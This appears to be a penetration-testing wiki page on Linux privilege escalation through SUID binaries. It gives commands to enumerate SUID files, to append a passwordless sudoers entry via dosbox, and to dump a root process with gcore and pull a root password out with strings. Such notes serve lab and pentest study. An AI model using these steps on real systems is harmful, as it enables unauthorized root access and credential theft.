

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# SUIDs

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null
```

## Dosbox

The presence of `dosbox` with the SUID bit set allows privilege escalation via **file write abuse**. According to [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid), `dosbox` can be used to **modify arbitrary files when executed as** `root` through SUID.

```bash
# Add a user to the sudoers group
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo x7331 ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

If **GUI-based access to the target** is available (e.g. via [VNC](../../../../../services/tcp/remote-access/5900-vnc.md)) we can mount the filesystem:

<figure><figcaption></figcaption></figure>

## Gcore

`gcore` is a CLI that creates a core dump of a running process without stopping it. This memory snapshot includes the process’s stack, heap, and loaded libraries, and is useful for **extracting sensitive data** or analyzing execution state during red team operations. It requires the PID of the target process and appropriate permissions. The output (`core.<PID>`) can be examined with tools like `gdb` or simply via `strings` making `gcore` valuable for stealthy, in-memory analysis during post-exploitation.


```bash
# Check user's permissions
$ sudo -l
User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/gcore
    
# List root processes
$ ps -u root -o pid,comm
490 password-store

# Dump the process
$ sudo gcore 490
​
# Inspect the file
$ strings core.490
001 Password: root:
R00tM3Plz!!!
```

